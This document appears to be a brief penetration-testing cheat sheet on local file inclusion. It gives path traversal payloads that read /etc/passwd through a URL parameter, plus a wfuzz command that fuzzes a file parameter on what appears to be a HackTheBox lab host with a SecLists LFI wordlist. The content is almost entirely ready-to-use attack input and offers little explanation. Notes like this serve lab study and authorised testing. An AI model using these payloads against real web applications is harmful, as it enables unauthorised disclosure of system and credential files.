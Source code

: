 # LFI

Generic
----

```
file.php?param=../../../etc/passwd
```
```
file?param=../../../etc/passwd
```

Automation with wfuzz
-----
Remove all empty responses (0 Ch lines)
```
wfuzz -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt --hc 403,404 -u http://megahosting.htb/news.php?file=../../../../FUZZ | grep -v '0 Ch'
```